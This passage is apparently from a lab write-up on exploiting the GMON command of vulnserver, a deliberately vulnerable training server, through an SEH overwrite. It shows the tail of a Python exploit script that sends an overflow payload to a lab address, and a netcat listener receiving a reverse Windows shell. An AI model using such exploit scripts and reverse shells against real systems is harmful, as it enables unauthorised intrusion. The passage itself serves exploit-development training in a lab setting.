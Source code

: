 ```c
payload+=nseh

# to overwrite SEH
payload+=seh

# padding
payload+=b"D"*(5000-len(payload))

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()
```

Since we are running this application as a high privileged user, by running this exploit we should gain shell as the same user

Lets try running our exploit when the application is running as privileged user without debugger,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 exploit.py
```

By running our final exploit we will get our shell on the target machine

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ nc -nlvp 9876
listening on [any] 9876 ...
connect to [192.168.116.128] from (UNKNOWN) [192.168.116.140] 49792
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\vulnserver-master\vulnserver-master>whoami
whoami
vulnserver\winexp

C:\vulnserver-master\vulnserver-master> 
```


